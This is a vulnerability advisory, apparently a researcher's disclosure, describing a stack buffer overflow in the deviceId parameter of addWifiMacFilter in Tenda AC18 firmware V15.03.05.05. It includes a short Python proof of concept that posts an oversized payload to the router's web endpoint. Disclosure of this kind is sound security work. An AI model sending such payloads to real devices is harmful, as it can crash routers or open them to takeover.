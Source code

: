 ## Overview

- The device's official website: https://www.tenda.com.cn/product/overview/AC18.html

- Firmware download website: https://www.tenda.com.cn/download/detail-2610.html

## Affected version

V15.03.05.05

## Vulnerability details

The Tenda AC18 V15.03.05.05 firmware has a stack overflow vulnerability in the `addWifiMacFilter` function. The `v9` variable receives the `deviceId` parameter from a POST request. The value is directly used in a `sprintf` function and passes to a local variable on the stack, which can override the return address of the function. The user-provided `v9` can trigger this security vulnerability.

![image-20240306161153603](addWifiMacFilter_deviceId.assets/image-20240306161153603.png)

![image-20240306161203436](addWifiMacFilter_deviceId.assets/image-20240306161203436.png)

![image-20240306161213302](addWifiMacFilter_deviceId.assets/image-20240306161213302.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/addWifiMacFilter"
payload = b"a"*1000

data = {"deviceMac": 1, "deviceId":payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240306161225747](addWifiMacFilter_deviceId.assets/image-20240306161225747.png)